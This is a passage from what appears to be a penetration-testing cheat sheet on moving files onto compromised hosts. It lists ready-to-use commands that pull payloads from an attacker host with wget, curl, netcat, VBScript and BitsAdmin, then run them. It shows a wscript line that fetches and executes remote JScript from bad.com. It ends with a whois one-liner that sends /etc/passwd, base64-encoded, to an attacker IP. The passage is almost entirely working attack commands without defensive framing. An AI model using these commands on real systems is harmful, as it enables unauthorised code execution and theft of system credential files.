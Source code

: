Then run: 
```VBScript
cscript wget.vbs http://$ATTACKER/file.exe localfile.exe
```

HTTP: Linux
```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

Netcat
```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

HTTP: Windows "debug.exe" Method
```bash
# 1. In Linux, convert binary to hex ascii:
wine /usr/share/windows-binaries/exe2bat.exe /root/tools/netcat/nc.exe nc.txt
# 2. Paste nc.txt into Windows Shell.
```

HTTP: Windows BitsAdmin
```powershell
cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://$ATTACKER/payload.exe %tmp%\payload.exe&start %tmp%\payload.exe
```

Wscript Script Code Download & Execution
*cmd*
```powershell
echo GetObject("script:https://bad.com/code.js") > code.js && wscript.exe code.js
```

*code.js*
```js
<?xml version="1.0"?>
<package>
<component id="PopCalc">
<script language="JScript">
    <![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc"); 
    ]]>
</script>
</component>
</package>
```

### Whois Data Exfiltration
```bash
# attacker
nc -l -v -p 43 | sed "s/ //g" | base64 -d
# victim
whois -h $attackerIP -p 43 `cat /etc/passwd | base64`
```
